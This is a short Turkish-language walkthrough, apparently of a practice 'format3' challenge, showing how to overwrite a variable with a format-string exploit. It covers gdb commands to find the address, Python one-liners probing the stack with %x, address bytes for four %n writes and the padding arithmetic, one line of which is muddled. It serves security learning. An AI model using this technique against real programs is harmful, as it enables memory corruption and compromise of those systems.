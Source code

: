 1- target değişkeninin adresi 0X80496f4 olarak bulunmuştur.(Bu adrese 0x01025544 değeri yazılacaktır)

    $gdb -q format3
    (gdb)disas main
    (gdb)x target

2- Verilen stringi yazdırırken kaç tane %x' den sonra yığındaki değerleri yazdırmaya başladığı bulunmuştur.(12. %x'de
yığından değerler çekmeye başlamıştır. Yani 11 tane %x den sonra %n koyarak hafızaya yazma işlemi yapılabilir)

    $python -c "print 'AAAA' + '%08x'*15"
    $python -c "print 'AAAA' + '%08x'*11 + '%08x'"
    
3- Yazma işlemi target adresinin en anlamsız byte'ından başlayarak her 4 byte'ı için ayrı ayrı yapılmıştır. Yazılacak değer
ise endüşük anlamdan başlamak üzere aşağıdaki gibi 4 kısma bölünmüştür. 

    target1 = '\xf4\x96\x04\x08AAAA'
    target2 = '\xf5\x96\x04\x08AAAA'
    target3 = '\xf6\x96\x04\x08AAAA'
    target4 = '\xf7\x96\x04\x08AAAA'
   
4- Her %n kullanılmadan önce yazılacak değer bir önceki %x'de ayarlanmış ve her seferinde bir byte yazılmıştır.Ayarlama şu
şekilde gerçekleşmiştir.

    n1 = 256 + n1 = 256 + byte1 - 0x70               # 0x70 değeri hiç bir değişiklik yapmadan ilk %n de çıkacak değerdir.
    n2 = 256*2 + byte2 - n1 - 0x70                   # önceki yazılan byteların toplamı şeklindede bulunabilir.
    n3 = 256*3 + byte3 - n2 - n1 - 0x70
    n4 = 256*4 + byte4 - n3 - n2 - n1 - 0x70
